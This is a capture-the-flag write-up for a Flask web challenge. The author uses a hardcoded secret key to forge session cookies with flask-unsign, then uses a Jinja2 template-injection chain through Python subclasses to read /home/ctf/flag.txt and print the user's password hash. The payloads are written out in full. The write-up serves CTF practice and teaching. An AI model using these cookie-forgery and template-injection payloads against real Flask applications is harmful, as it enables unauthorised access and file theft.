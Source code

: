 # PseudoRandom | *Web / Cloud*

## The task
![Screenshot of the task](/tenable_ctf_2023/rose/imgs/Task.png)
So the task is to gain access to the /home/ctf/flag.txt file from on the server. To do this we have access to the server and a .zip file containing some flask source code.

## The process
Lets start with the source code and see if there is anything that stands out.
```
#@main.route('/signup')
#def signup():
#    return render_template('signup.html')
```
As the task said the signups have been closed so looks like were going to need to find an accound to use. lets see how its logging us in.
```
@main.route('/', methods=['POST'])
def login_post():
    email = request.form.get('email')
    password = request.form.get('password')
    remember = True if request.form.get('remember') else False

    user = User.query.filter_by(email=email).first()

    if not user or not check_password_hash(user.password, password): 
        flash('Please check your login details and try again.')
        return redirect(url_for('main.index'))

    login_user(user, remember=remember)
    session["name"] = current_user.name
    return redirect(url_for('main.dashboard'))

```
So its making use of some of the flask-login functions to check passwords but also using some sql filter queries to check the first email it finds. This could potentially have some SQL injection avenues. Also note that if it is sucessfull the user is given a session cookie with "name" of their username and redirected.

After a bit more looking arround we find a silver bullet in the \_\_init\_\_.py file. `app.config['SECRET_KEY'] = 'SuperDuperSecureSecretKey1234!'`. Theres no way that they kept that in the live build right? Only one way to see...

## The code
We start by checking if we can sign our own cookie with the known secret key using flask-unsign.
> To help with making it more legiable I tend to use env variable to store the token and cookie values.
```
cookie="{'This is a test': True }"

flask-unsign --sign --cookie $cookie --secret SuperDuperSecureSecretKey1234!
```
this returns a cookie: `eyJUaGlzIGlzIGEgdGVzdCI6dHJ1ZX0.ZNYe-Q.nTYQwxeQPwoUIe7Ifjzdx6OfZzk`. We are going to take this cookie and add it to our login attempt. To do this first press the login butto with no inputs to recieve a cookie then click on the value and change it to the new cookie.
![adding session token / cookie](/tenable_ctf_2023/rose/imgs/add_session_cookie.png)
> Remember this process, we will be doing it a few more times

Once you login this time you will see that the cookie changes, copy the new cookie and run a decode on it:
```
token=eyJUaGlzIGlzIGEgdGVzdCI6dHJ1ZSwiX2ZyZXNoIjpmYWxzZX0.ZNYfbA.7PNA_FIKilkowUX7YLQVaV7eDMI

flask-unsign --decode --cookie $token  
```
This returns: `{'This is a test': True, '_fresh': False}`

Success it looks like they kept the secret key the same, not so *'SuperDuperSecure'* afterall. Now we can see if we can login to the dashboard. To do this we go back to the source code and flask-login docs to see what we need to login.
```
if("name" in session.keys()):
    return redirect(url_for('main.dashboard'))
...

@main.route('/dashboard')
@login_required
...

@login_manager.user_loader
def load_user(user_id):
    return User.query.get(int(user_id))
```
Through this we find that we need to have `"name"` in the session and meet the @login_required criteria, luckily its all documented and all we need is `is_authenicated` to be true and a valid `user_id`. Luckily for that it doesn't need to match the name so since there must be at least 1 user, 1 should work fine. Therfore our new cookie is: `cookie="{'is_authenticated': True, '_user_id': '1', 'name': 'test'}"`

Once we run that through the flask-unsign process again and hit login we gain access to the dashboard.
![were in to the dashboard](/tenable_ctf_2023/rose/imgs/were_in.png)
So what now? looks like the dashboard is also the same as our source and in dev with no sign of the /home/ctf/flag.txt file. To start lets look at the dashboard code.
```
def dashboard():
    template = '''
{% extends "base.html" %} {% block content %}
<h1 class="title">
    Welcome, '''+ session["name"] +'''!
</h1>
<p> The dashboard feature is currently under construction! </p>
{% endblock %}
'''
    return render_template_string(template)
```
Thats odd, its not a templated page but rather it renders the template string which just so happens to include our session["name"]. From here we can run some tests and see if we can get the name from the actuall current user but adding our own flask {{ }} statements in the name.

`cookie="{'is_authenticated': True, '_user_id': '1', 'name': 'Name: {{ current_user.name }} PASS: {{ current_user.password }}'}"`

![name and pass extraction](/tenable_ctf_2023/rose/imgs/name_and_pass.png)

Well that seems promising, sadly however we don't have much use for the username and password as we already see the dashboard. But what other variables can we print? Well with a bit of help from google I found a way to reference classes through the use of ``.\_\_class\_\_`` , ``.\_\_base\_\_`` and ``.\_\_subclasses\_\_()`` calls in python.

We slowly step through each phase to try and reach the `\_io.FileIO` / file.read() class. Each time getting a new cookie and refreshing the page starting with:
```
cookie="{'is_authenticated': True, '_user_id': '1', 'name': 'TEST: {{ current_user.name.__class__.__base__.__subclasses__() }}'}"
```
which returns: 
```
[<... <class '_thread.RLock'>, <class '_thread._localdummy'>, <class '_thread._local'>, <class '_io._IOBase'>,...]

```
And we keep searching untill:
```
cookie="{'is_authenticated': True, '_user_id': '1', 'name': 'TEST: {{ current_user.name.__class__.__base__.__subclasses__()[111].__subclasses__()[0].__subclasses__() }}'}"
```
which finally gives use the `\_io.FileIO` class

From there we simply add the path of the file and .read() it.
```
cookie="{'is_authenticated': True, '_user_id': '1', 'name': 'TEST: {{ current_user.name.__class__.__base__.__subclasses__()[111].__subclasses__()[0].__subclasses__()[0](\'/home/ctf/flag.txt\').read() }}'}"

```
![flag has been found](/tenable_ctf_2023/rose/imgs/flag_found.png)
And there you go, the flag `flag{wh4ts_1n_a_n4m3_4nd_wh4ts_in_y0ur_fl4sk}` has been found.
